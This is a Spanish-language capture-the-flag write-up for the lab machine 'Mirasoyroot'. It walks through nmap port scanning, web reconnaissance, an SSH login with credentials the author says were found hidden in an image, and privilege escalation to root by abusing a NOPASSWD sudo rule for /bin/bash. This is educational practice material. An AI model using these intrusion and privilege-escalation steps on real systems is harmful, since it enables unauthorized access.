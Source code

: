 ```yaml
---
layout: post
title: Mirasoyroot
subtitle: Plataforma MiraSoyRoot Dificultad Muy Fácil
cover-img: assets/img/Timetraversal/Captura de pantalla 2025-09-14 165842.png
thumbnail-img: assets/img/Timetraversal/Captura de pantalla 2025-09-14 165842.png
share-img: assets/img/Timetraversal/Captura de pantalla 2025-09-14 165842.png
author: Elmili72
---
```


<img width="227" height="222" alt="image" src="https://github.com/user-attachments/assets/ce9c451f-14bf-4521-8d9b-f0c115414357" />

## Escaneo general de puertos

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 17:41:06 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

```bash
❯ nmap -sCV -p22,80 172.17.0.2 -oN target
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:fe:8d:4e:47:c9:95:40:bb:10:89:be:b8:a1:ef:03 (ECDSA)
|_  256 80:1c:dd:6a:c7:b5:8f:93:70:a7:32:83:e3:1e:7e:4c (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: TIME LUXURY WATCHES
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento de Servicio Web

```bash
❯ whatweb http://172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[TIME LUXURY WATCHES]
```

<img width="1780" height="658" alt="Pasted image 20250623174409" src="https://github.com/user-attachments/assets/6482564f-151b-4c4e-a716-30203186e040" />

<img width="506" height="68" alt="Pasted image 20250623174419" src="https://github.com/user-attachments/assets/07ed0c4e-ff7e-4da0-834c-b3566ac34ed7" />

Aquí cualquiera puede pensar, pues bueno intentamos enumerar directorios con LFI para intentar exfiltrar el archivo */etc/passwd*. Pues nuestro amigo y venico Yerman nos tiene una sorpresa jejejej.

<img width="475" height="421" alt="Pasted image 20250623175407" src="https://github.com/user-attachments/assets/0b2495c6-ac5f-4e6e-a63a-f976bfa46ce0" />

No diré en que imagen se encuentras las credenciales jijiji.

## Explotación

### Intrusión

```bash
❯ ssh pablo@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:KN2v7mhMbB2KMFDXfIyBZ3RSeXTGDTEQXnLuzqc2OhU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
pablo@172.17.0.2's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.12.25-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Feb 20 12:13:26 2025 from 172.17.0.1
pablo@5f93963c4c51:~$ whoami
pablo
pablo@5f93963c4c51:~$ id
uid=1001(pablo) gid=1001(pablo) groups=1001(pablo)
```

## Post-Explotación

### Escalada de Privilegios

```bash
pablo@5f93963c4c51:~$ sudo -l
Matching Defaults entries for pablo on 5f93963c4c51:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pablo may run the following commands on 5f93963c4c51:
    (ALL) NOPASSWD: /bin/bash
```

```bash
pablo@5f93963c4c51:~$ sudo /bin/bash -p
root@5f93963c4c51:/home/pablo# whoami
root
root@5f93963c4c51:/home/pablo# id
uid=0(root) gid=0(root) groups=0(root)
root@5f93963c4c51:/home/pablo# cd /root
root@5f93963c4c51:~# cat mirasoyroot.txt 
Felicidades!!! Lo has conseguido.
Si eres de los tres pirmeros en 
completar la maquina enviame una 
captura de esto y te pondre en el
podio de la web.
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
